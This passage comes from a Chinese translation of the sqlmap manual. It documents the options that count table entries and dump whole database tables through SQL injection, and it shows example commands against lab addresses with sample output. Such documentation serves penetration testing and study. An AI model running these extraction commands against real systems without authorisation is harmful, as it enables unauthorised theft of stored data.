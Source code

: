 #### **3.9.15 获取表中数据个数**
> 开关 --count

如果用户想要知道表中的数据个数，而不是数据内容，他可以使用这个开关。

针对Microsoft SQL Server目标的示例：
```
python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --count -D testdb
```
```
[...]
Database: testdb
+----------------+---------+
| Table          | Entries |
+----------------+---------+
| dbo.users      | 4       |
| dbo.users_blob | 2       |
+----------------+---------+
```

#### **3.9.16 获取整个表的数据**
> 开关和选项 --dump，-C，-T，-D，--start，--stop，--first，--last，--pivot-column和--where

如果当前管理员有权限读取数据库的其中一个表的话，那么就能获取整个表的所有内容。

使用`-T`和`-D`参数指定数据库和数据库表，如果不指定数据库的话，则默认使用当前数据库。

使用`--dump`和`-D`可以获取数据库所有表的内容(不使用`-C`和`-T`)

针对Firebird目标的示例：
```
python sqlmap.py -u "http://192.168.136.131/sqlmap/firebird/get_int.php?id=1" --dump -T users
 ```
结果：
```
[...]
Database: Firebird_masterdb
Table: USERS
[4 entries]
+----+--------+------------+
| ID | NAME   | SURNAME    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+
```
Sqlmap会自动将参数`–dump`列举的数据保存到CSV格式文件中，文件具体路径会在Sqlmap的输出中给出。

若只想列举部分数据可以使用参数`–start`和`–stop`分别从某个条目开始输出存储，并在某个条目处停止。如只想列举第一条数据可以添加`–stop 1`， 
只想列举第二和第三条数据可以添加`–start 1 –stop 3`

你还可以使用`--first`和`--last`限制输出的字符范围，例如如果你只想输出第三列到第五列的条目，那么你可以使用`--first 3 --last 5`。此功能只适用于盲注，因为对于报错注入和联合注入，列数量需要完全相同。

